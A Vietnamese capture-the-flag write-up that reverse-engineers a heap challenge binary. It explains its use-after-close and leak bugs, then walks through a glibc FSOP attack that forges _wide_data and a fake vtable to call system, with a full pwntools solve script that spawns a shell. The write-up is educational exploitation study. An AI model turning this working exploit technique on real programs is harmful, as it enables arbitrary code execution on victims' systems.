# FSOP 2



Bài cho ta file binary và libc. Các cờ security hầu như bật hết. Ta cùng xem chương trình làm gì:

## Overview



Mình đã rename các hàm để dễ đọc hơn. Nhìn qua thì ta có 8 lựa chọn để làm các tác vụ riêng biệt. Giờ ta sẽ đi vào phân tích chi tiết từng hàm một:

1. `Create()`



- Hàm cho phép ta nhập `size` rồi tạo chunk với size đó, tuy nhiên tổng kích thước các chunk mà ta yêu cầu phải `< 0x200`
- Chương trình malloc một `mother chunk` để lưu các dữ liệu. Đây là struct của nó:

```
00000000 struct __fixed chunks // sizeof=0x18
00000000 {
00000000     __int64 size;
00000008     __int64 choncc_offset;
00000010     __int64 next_mother_chunk;
00000018 };

```
2. `View()`



- Hàm view này đơn giản là in ra từng đó byte của `choncc` thôi

3. `Edit()`



- Chương trình sẽ cho phép ta nhập vào `choncc` chunk

4. `Remove()`



- Flow chính của hàm `remove()` là: nhập thứ tự của chunk cần `free`, sau đó nó sẽ set `next_mother_chunk` của chunk trước đó thành giá trị của chunk sau đó (unlink chunk đang xóa) => Sau đó free `mother_chunk` và `choncc` của nó. Nhưng điều tuyệt vời ở đây là nó không xóa dữ liệu trong chunk đó.

5. `Open()`



- Hàm này mở file bằng hàm `fopen()`, trong hàm `fopen()` chương trình malloc 1 chunk rồi ghi các giá trị của `_IO_FILE` vào trong đó để phục vụ cho các tác vụ khác.

6. `Close()`



- Hàm này đóng file (free chunk đó), sau đó xor các giá trị trong đó với `rand()`.

- Tuy nhiên` IO_FILE_ptr` không bị set về 0 => ta có 1 bug **Use after close**

7. `Write_file()`



- Hàm này sẽ sử dụng `fwrite()` để viết nội dung các chunk vào file.

## Exploit

- Vì ta thấy chương trình có bug `Use after close` và có hàm `fwrite()` nên ý tưởng của mình là tìm cách thay đổi các giá trị của File struct, để khi gọi `fwrite()`, chương trình sẽ sử dụng dữ liệu mà ta đã chỉnh sửa trong File struct đó

### Stage 1: Leak heap address

- Như vừa ta đã thấy bên trên, ở hàm `remove()`, chương trình free nhưng không xóa dữ liệu trong chunks.



- Ta thấy khi free thì 0x10 của content chunk bị thay đổi nhưng vẫn còn giá trị của heap ta có thể leak được, vì kích thước của chunk ta hoàn toàn kiểm soát được nên chúng ta sẽ tìm cách để chương trình sẽ lấy `mother_chunk` cũ để malloc thành `data` mới. 

- Ý tưởng chung là sẽ làm sao để tcache bin chunk cuối sẽ là của `choncc` để khi malloc lại ta có thể lấy được chunk data chứa địa chỉ heap. Đây là cách khác ngắn hơn so với solve script:

```python
create(0x30)
create(0x30)

delete(1)
delete(1)

create(0x18)
view(1)
```

### Stage 2: Leak libc address



Như ta thấy thì sau khi thực thi hàm `close()`, chương trình sẽ free chunk này và xor các giá trị trong đó với 1 giá trị ngẫu nhiên. **TUY NHIÊN**, chương trình đã không xor 8 byte cuối của chunk đó và để lại địa chỉ libc. Vậy ta hoàn toàn có thể tạo 1 chunk với kích thước `0x1d8` để malloc lại chunk này và dùng `view()` để leak được ra địa chỉ của libc.

### Stage 3: Change File Struct:

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

- Ở các phiên bản libc cao thì việc kiểm tra các điều kiện nghiêm ngặt hơn rất nhiều. Chương trình sẽ kiểm tra liệu địa chỉ `vtable` có nằm trên vùng libc vtable không, đồng thời ta phải set biến` _lock` tới vùng nhớ có quyền ghi và có giá trị = 0.

- Vậy để vượt qua các kiểm tra này, ta sẽ tìm cách chạy hàm `_IO_wfile_overflow`, hàm đó sẽ gọi tiếp `_IO_wdoallocbuf` mà hàm này sẽ lấy vtable từ bên trong cấu trúc `wide_data` để gọi hàm mà không check gì cả.

Vậy ý tưởng khai thác của mình như này:

- Tạo một chunk rồi tạo `_wide_data` giả, trong đó có chứa con trỏ tới `vtable` giả, trong `vtable` giả đó ta sẽ đặt hàm `system`

- Malloc lại chunk chứa file struct kia và ghi đè trường flag thành `  sh`, đổi địa chỉ `_wide_data` thành địa chỉ của `fake_wide_data`. Đồng thời điều chỉnh địa chỉ vtable thành địa chỉ của `_IO_wfile_jumps` để khi chương trình thực hiện `fwrite()`, nó sẽ kiểm tra vtable hợp lệ, nó sẽ gọi đến `_IO_wfile_overflow`

- Từ đó `_IO_wfile_overflow` sẽ gọi `_IO_wdoallocbuf`; sau đó hàm đó sẽ lấy con trỏ của `fake_wide_data` và thực thi hàm trong `fake_vtable` mà ta đã để trong đó

### Solve script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b* 0x5555555559cb 
        b* 0x555555555402 
    
        c
        ''')
        sleep(1)
def create(size):
    slna("> ",1)
    slna("Enter the size of the choncc:",size)
def view(idx):
    slna("> ",2)
    slna("Enter the choncc number:",idx)

def edit(idx,content):
    slna("> ",3)
    slna("Enter the choncc number:",idx)
    sla("Enter the new content for the choncc:",content)

def delete(idx):
    slna("> ",4)
    slna("Enter the choncc number:",idx)
def open():
    slna("> ",5)
def close():
    slna("> ",6)
def write():
    slna("> ",7)
    sla("[Y/n]",b'Y')

if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])

### Stage 1: Leak heap address
create(0x18)
create(0x18)
create(0x18)
create(0x18)

delete(1)
delete(1)
delete(1)
delete(1)


create(0x18)
view(1)
p.recvuntil(b'1: ')
p.recv(16)
leak_heap = u64(p.recv(8))
info("leak heap: "+ hex(leak_heap))
delete(1)
heap_base = leak_heap - 0x360


### Stage 2: Leak libc address
open()
GDB()
close()
create(0x1d8)
view(1)

p.recvuntil(b'1: ')
for i in range(58):
    p.recv(8)  
leak_libc = u64(p.recv(8))
info("leak libc: " + hex(leak_libc) )
libc.address = leak_libc - 0x1ee228
info("libc base: " + hex(libc.address))
delete(1)

create(0x1c8)
### Stage 3: Change File Struct:
fake_vtable = {
    0x68: libc.sym['system'] 
}
vtable_payload = flat(fake_vtable, filler=b"\x00", length=0x70)
wide_data = {
    0x30: 0,
    0xe0: heap_base + 0x590
}
wide_data_payload = flat(wide_data, filler=b"\x00", length=0xf0)

payload = p64(0)*2
payload += vtable_payload
payload += b'a'*8
payload += wide_data_payload

edit(1,payload)

delete(1)
create(0x1d8)

fs = FileStructure()

fs.flags = b"  sh\x00\x00\x00\x00"

fs._wide_data = heap_base + 0x608

fs.vtable = libc.sym['_IO_wfile_jumps']
fs._lock = heap_base + 0x20
payload = bytes(fs)

edit(1,payload)

write()


p.interactive()


```

### Flow run



- Đầu tiên khi thực thi hàm `fwrite()`, chương trình sẽ kiểm tra xem địa chỉ mà ở `_lock` có = 0 hay không. Mình đã đổi thành địa chỉ trên heap nên chúng ta sẽ vượt qua được kiểm tra này



- Tiếp đến, chương trình sẽ kiểm tra xem vtable có là 1 địa chỉ nằm trong `vtable libc` hay không. Do đã thay đổi thành 1 địa chỉ khác vẫn nằm trong đó nên mình cũng vượt qua được 



- Sau đó chương trình gọi hàm tại `[r15 + 0x38]`, đó chính là địa chỉ vtable + 0x38 => `_IO_wfile_xsputn`. Hàm này sẽ gọi hàm `_IO_wfile_xsputn`:





- Hàm này lại gọi hàm `_IO_wfile_overflow`: đúng hàm mà chúng ta cần. Hàm đó sẽ lấy dữ liệu từ `_wide_data`



Tuy nhiên hàm này có kiểm tra trường `Flag` trong file struct. Vậy nên nếu ta dùng `/bin/sh`thì khi đó điều kiện này sẽ fail và không gọi được hàm `_IO_wdoallocbuf`. Vậy nên để vượt qua thì mình đã thêm space ở đầu: `b"  sh\x00\x00\x00\x00"`, khi đó `0x20 & 0x8 = 0` vượt qua được điều kiện



Vượt qua được rồi thì ta sẽ gọi được hàm `_IO_wdoallocbuf`



- Trong hàm này chương trình đã lấy địa chỉ của `_fake_wide_data` của mình ra và truyền vào `rax`

- Ngay sau đó sẽ `rax` sẽ lấy địa chỉ `fake_vtable` tại `_wide_data` + `0xe0`.

- Cuối cùng, chương trình thực thi hàm tại `fake_vtable` + `0x68`, và đó là hàm `system()` mà chúng ta đã ghi, với `rdi` là lệnh ` sh` sau đó chương trình sẽ tạo shell cho chúng ta 😎😎😎 